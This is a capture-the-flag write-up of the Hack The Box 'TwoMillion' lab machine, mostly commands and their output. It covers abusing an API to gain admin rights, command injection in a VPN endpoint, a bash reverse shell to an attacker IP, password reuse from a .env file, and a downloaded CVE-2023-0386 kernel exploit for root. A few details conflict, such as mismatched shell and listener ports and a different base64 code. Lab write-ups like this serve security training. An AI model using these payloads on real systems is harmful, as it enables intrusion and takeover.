





# Hack The Box - TwoMillion

TwoMillion is an Easy difficulty Linux box that was released to celebrate reaching 2 million users on HackTheBox. The box features an old version of the HackTheBox platform that includes the old hackable invite code. After hacking the invite code an account can be created on the platform. The account can be used to enumerate various API endpoints, one of which can be used to elevate the user to an Administrator. With administrative access the user can perform a command injection in the admin VPN generation endpoint thus gaining a system shell. An .env file is found to contain database credentials and owed to password re-use the attackers can login as user admin on the box. The system kernel is found to be outdated and CVE-2023-0386 can be used to gain a root shell.

As always, we start by running a full TCP port scan on the machine.

## Reconnaissance

```bash
nmap -p- -sS --min-rate 5000 -Pn -n Target-IP
```

```text
Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-28 14:24 CEST
Nmap scan report for 10.129.181.190
Host is up (0.040s latency).
Not shown: 65533 closed tcp ports (reset)

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 11.52 seconds
```

The open ports on the machine are 22 and 80. Let’s check what services are running on them.

```bash
nmap -p 22,80 -sVC --min-rate 5000 Target-IP -oN services.nmap
```

```text
Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-28 14:27 CEST
Nmap scan report for 10.129.181.190
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.76 seconds
```
## Web Enumeration

Since port 80 is running a web service, let’s identify the technologies being used.

```bash
whatweb Target-IP
```

```text
http://10.129.181.190 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.129.181.190], RedirectLocation[http://2million.htb/], Title[301 Moved Permanently], nginx
ERROR Opening: http://2million.htb/ - no address for 2million.htb
```

We get an error because the domain `2million.htb` cannot be resolved. To map this domain to the machine’s IP, we need to add the line `[ip] 2million.htb` to the `/etc/hosts` file.

```bash
echo "Target-IP 2million.htb" >> /etc/hosts
```

Now we can run the command again.

```bash
whatweb Target-IP
```

```text
http://10.129.181.190 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.129.181.190], RedirectLocation[http://2million.htb/], Title[301 Moved Permanently], nginx
http://2million.htb/ [200 OK] Cookies[PHPSESSID], Country[RESERVED][ZZ], Email[info@hackthebox.eu], Frame, HTML5, HTTPServer[nginx], IP[10.129.181.190], Meta-Author[Hack The Box], Script, Title[Hack The Box :: Penetration Testing Labs], X-UA-Compatible[IE=edge], YouTube, nginx
```



We receive some information that is not immediately useful, but it may become important later.

When we open the page, we notice it is the old Hack The Box website.

Before, to register on the platform, you had to exploit the website itself. So we go to the Join HTB section.



Inside, we see an Invite Code field. Let’s inspect the page source of `/invite`.

```html
<script src="/js/htb-frontend.min.js"></script>
<script defer src="/js/inviteapi.min.js"></script>
<script defer>
    $(document).ready(function() {
        $('#verifyForm').submit(function(e) {
            e.preventDefault();

            var code = $('#code').val();
            var formData = { "code": code };

            $.ajax({
                type: "POST",
                dataType: "json",
                data: formData,
                url: '/api/v1/invite/verify',
                success: function(response) {
                    if (response === 200 && response.success === 1 && response.data.message === "Invite code is valid!") {
                        localStorage.setItem('inviteCode', code);
                        window.location.href = '/register';
                    } else {
                        alert("Invalid invite code. Please try again.");
                    }
                },
                error: function(response) {
                    alert("An error occurred. Please try again.");
                }
            });
        });
    });
</script>
```

At first glance, there does not seem to be anything interesting. However, there is more code in external files, such as the script in `/js/inviteapi.min.js`.

```javascript
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```

This is obfuscated code, which is a technique used to make code unreadable. To deobfuscate it, we can simply paste the code into ChatGPT and ask it to show us the unobfuscated version. The result is:

```javascript
function verifyInviteCode(code) {
    var formData = { "code": code };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}
```

In the `makeInviteCode` function, we can see the route `/api/v1/invite/how/to/generate`. That looks interesting, so let’s send a request to it with `curl`.

```bash
curl -sX POST 2million.htb/api/v1/invite/how/to/generate | jq
```

```json
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```

The `data` field appears to be encrypted with ROT13, which shifts letters 13 positions in the alphabet. To quickly decrypt it, we can use the website: https://rot13.com.

The decrypted message is: `In order to generate the invite code, make a POST request to /api/v1/invite/generate`.

```bash
curl -sX POST 2million.htb/api/v1/invite/generate | jq
```

```json
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "R1c0NlItMUhWUkItNDFNQVktT0YzUTc=",
    "format": "encoded"
  }
}
```

The `code` field contains a base64 string, which is probably the Invite Code, so let’s decode it and test it.

```bash
echo -n "UlFZMkEtOUo2TDEtSU1NN0wtWDJWWlU=" | base64 -d; echo
```

```text
RQY2A-9J6L1-IMM7L-X2VZU
```



After submitting the correct code, we are redirected to a registration panel. We enter any credentials and then log in with them.

After logging in, we reach the main page.



We do not find anything vulnerable on the page itself, so we investigate the API used earlier.

```bash
curl -v http://2million.htb/api
```

```text
*   Trying 10.129.181.190:80...
* Connected to 2million.htb (10.129.181.190) port 80 (#0)
> GET /api HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/7.88.1
> Accept: */*
>
< HTTP/1.1 401 Unauthorized
< Server: nginx
< Date: Sun, 29 Sep 2024 10:05:59 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Set-Cookie: PHPSESSID=gfovc1g53rll77brnk4k03tadc; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
>
* Connection #0 to host 2million.htb left intact
```

When we send a `curl -v` request to the API, we get a `401 Unauthorized`, so we can try using the cookie we obtained after logging in.

```bash
curl -s http://2million.htb/api -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq
```

```json
{
  "/api/v1": "Version 1 of the API"
}
```

This gives us the route `/api/v1`, so let’s query it.

```bash
curl -s http://2million.htb/api/v1 -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq
```

```json
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

We get a lot of routes, and the admin-related ones are especially interesting.

First, let’s check whether we are an administrator or not.

```bash
curl -s http://2million.htb/api/v1/admin/auth -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq
```

```json
{
  "message": false
}
```

As expected, we are not an administrator.

The route `/api/v1/admin/settings/update` is described as `Update user settings`, which looks interesting because, if it is not properly protected, we may be able to change user parameters such as whether we are an admin or not.

```bash
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq
```

```json
{
  "status": "danger",
  "message": "Invalid content type."
}
```

It tells us that the content type we are sending with PUT is invalid, so let’s try JSON.

```bash
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d "{}" | jq
```

```json
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

Now it says the `email` field is missing, so let’s add the email we used to register on the site.

```bash
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"email": "test@test.com"}' | jq
```

```json
{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```

It asks for the `is_admin` field, so let’s try setting it to `true`.

```bash
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"email": "test@test.com", "is_admin": "true"}' | jq
```

```json
{
  "status": "danger",
  "message": "Variable is_admin needs to be either 0 or 1."
}
```

## Initial Access

Since it says the value must be either `0` or `1`, we can assume that `1` is equivalent to `true` and `0` is equivalent to `false`.

```bash
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"email": "test@test.com", "is_admin": 1}' | jq
```

```json
{
  "id": 13,
  "username": "test",
  "is_admin": 1
}
```

This does not give us a clear confirmation, so let’s check again whether we are now admin by sending another request to `/api/v1/admin/auth`.

```bash
curl -s http://2million.htb/api/v1/admin/auth -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq
```

```json
{
  "message": true
}
```

The API now confirms that we are an administrator. This may allow us to access routes that were previously restricted. For example, `/api/v1/admin/vpn/generate`.

```bash
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq
```

```json
{
  "status": "danger",
  "message": "Invalid content type."
}
```

We get another invalid content type error, so once again we send the data as JSON.

```bash
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{}' | jq
```

```json
{
  "status": "danger",
  "message": "Missing parameter: username"
}
```

Let’s give it any username, for example the one we used during registration.

```bash
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"username": "test"}'
```

```text
client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
tls-cipher "DEFAULT:@SECLEVEL=0"
auth SHA256
key-direction 1
<ca>
-----BEGIN CERTIFICATE-----
...rest of the vpn...
```

It generates an OpenVPN configuration file, which likely means the backend is calling a system command directly from PHP. It may be something like this:

```php
<?php
system("command-to-generate-vpn -x " . $our_input . " --parameter");
?>
```

This code is not sanitized, which means we may be able to abuse special characters to inject a malicious command. For example, if we send:

```json
{"username": "test; whoami #"}
```

the resulting PHP line would look like this:

```php
<?php
system("command-to-generate-vpn -x test; whoami # --parameter");
?>
```

In bash, that becomes:

```bash
command-to-generate-vpn -x test; whoami # --parameter
```

The first command runs normally, but when bash reaches the semicolon, it ends the command and executes the next one, which is `whoami`.

To make sure nothing to the right changes the behavior of our injected command, we add `#` to comment out the rest of the line.

Let’s test this in the API.

```bash
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"username": "test; whoami #"}'
```

```text
www-data
```

The `username` parameter is vulnerable to Command injection. It does not display the VPN config because the command likely failed after removing the expected arguments, and `system()` does not return stderr output.

Since we now have remote command execution, we can set up a reverse shell to work more comfortably.

```bash
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"username": "test; bash -c \"bash -i >& /dev/tcp/Attacker-IP/1234 0>&1\" #"}'
```

We listen with netcat.

```bash
nc -lnvtp 2323
```

```text
listening on [any] 2323 ...
connect to [10.10.14.48] from (UNKNOWN) [10.129.181.190] 50890
bash: cannot set terminal process group (1098): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$
```
## Privilege Escalation

Once the reverse shell lands, we upgrade the TTY for easier interaction, which is optional but recommended.

```bash
script /dev/null -c bash
```

Press `Ctrl+Z` and then run:

```bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

We start by listing the files in the web directory.

```bash
ls -la
```

```text
total 56
drwxr-xr-x 10 root root 4096 Sep 29 11:00 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Sep 29 11:00 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
```

We notice a `.env` file, which usually stores environment variables such as database credentials or other sensitive information.

```bash
cat .env
```

```text
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

We now have database credentials. Let’s check which users exist on the machine to see whether the credentials have been reused.

```bash
grep -e "sh$" /etc/passwd
```

```text
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
```

There is an `admin` user, which matches the database username, so let’s try the database password as that user’s password.

```bash
su admin
```

```text
Password: SuperDuperPass123
```

The password works, and now we can read `user.txt`.

```bash
cd
cat user.txt
```

While checking mails in `/var/mail`, we find a message containing useful information.

```bash
cat /var/mail/admin
```

```text
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: goblin <g@blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

The email tells admin to update the operating system because several Linux kernel vulnerabilities have appeared, especially the OverlayFS FUSE issue.

After searching online, we find an article explaining how it works.

## Becomeing Root

In short, versions of the Linux kernel before 6.2 do not properly check the ownership of a file when it is copied from an overlay mount into the upper directory. Because of that, if we provide a file with `uid=0`, it can be copied into the upper layer while keeping root ownership on the real system.

To exploit this, we create a file with the SUID bit set, which allows it to execute as its owner.

To create a file owned by `uid=0` without being root, we use a virtual filesystem like FUSE. This lets us simulate a file with `uid=0` and `gid=0`.

To understand this better, it helps to read more about OverlayFS and FUSE.

```bash
uname -r
```

```text
5.15.70-051570-generic
```

The kernel version is lower than 6.2, so we can try exploiting the vulnerability. We clone an exploit from GitHub: https://github.com/sxlmnwb/CVE-2023-0386

```bash
git clone https://github.com/sxlmnwb/CVE-2023-0386
```

To transfer it to the victim machine, we first compress it into a zip file.

```bash
zip -r cve.zip CVE-2023-0386
```

We start a Python HTTP server on port 80.

```bash
python3 -m http.server 80
```

Then we download it on the victim machine, unzip it, and compile it.

```bash
wget http://Attacker-IP/cve.zip
unzip cve.zip
cd CVE-2023-0386
make all
```

As explained in the `README.md`, we run the FUSE component in the background using `&`, and then execute the exploit.

```bash
./fuse ./ovlcap/lower ./gc &
./exp
```

Now we are root, so we can read `root.txt`.

```bash
cd /root
cat root.txt
```

After finishing the machine, do not forget to remove the corresponding entry from `/etc/hosts` so the file does not keep accumulating lines every time you solve a machine.

If you found this useful, consider leaving a star on the project. Thanks, and good luck with your next machines ❤️

## (Attack chain)

1. **Scan ports** — Nmap shows SSH and HTTP.
2. **Resolve host** — Add 2million.htb to /etc/hosts.
3. **Get invite code** — Use the API to generate and decode it.
4. **Register** — Create an account and log in.
5. **Enumerate API** — Find admin routes.
6. **Become admin** — Set is_admin=1.
7. **Inject command** — Exploit the VPN generator.
8. **Get shell** — Catch a www-data shell.
9. **Pivot to admin** — Reuse leaked credentials.
10. **Read root flag** — Collect /root/root.txt.
